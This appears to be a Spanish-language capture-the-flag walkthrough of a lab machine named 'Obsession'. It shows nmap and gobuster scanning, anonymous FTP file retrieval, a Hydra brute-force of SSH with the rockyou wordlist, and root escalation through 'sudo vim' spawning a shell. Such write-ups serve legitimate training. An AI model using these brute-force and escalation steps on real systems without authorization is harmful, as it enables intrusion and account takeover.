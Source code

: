 ```yaml
---
description: '✍️ Autor: Juan🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 25/06/2024'
---
```


# Obsession

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (1).png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

Observamos que el puerto **21** tiene dos archivos que podrían contener información relevante, y que la conexión es permitida con el usuario **anonymous** y sin contraseña, por lo que nos conectaremos a través de **FTP**. Esto lo sabemos ya que la versión es vulnerable a esas credenciales.

![](<../../.gitbook/assets/3 (1).png>)

Tras entrar, debemos listar y descargar los archivos que se mostraban anteriormente a través de los comandos:

```bash
ls
get chat-gonza.txt
get pendientes.txt
```

![](<../../.gitbook/assets/4 (1).png>)

Ahora mostramos el contenido de esos archivos con:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

![](<../../.gitbook/assets/5 (1).png>)

Con esto, descubrimos información de algunos de los usuarios e información de los permisos, lo que nos proporciona datos relevantes.

Seguimos indagando más sobre los puertos y ahora investigamos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web nos muestre un blog de entrenamiento personal.

![](<../../.gitbook/assets/6 (1).png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos dos directorios que son `/backup/` y `/important/`, por lo que los revisamos y su contenido a continuación.

![](<../../.gitbook/assets/8 (1).png>)

![](<../../.gitbook/assets/9 (1).png>)

Con esto, descubrimos que el usuario es **russoski**. Continuamos con el siguiente directorio.

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Parece ser que esto último no tiene nada relevante, por lo que nos centramos en lo que hemos descubierto anteriormente, que es el usuario.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh russoski@172.17.0.2
```

![](../../.gitbook/assets/13.png)

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/14.png)

Observamos que podemos escalar privilegios con **vim** usando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ponemos:

```bash
id
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>
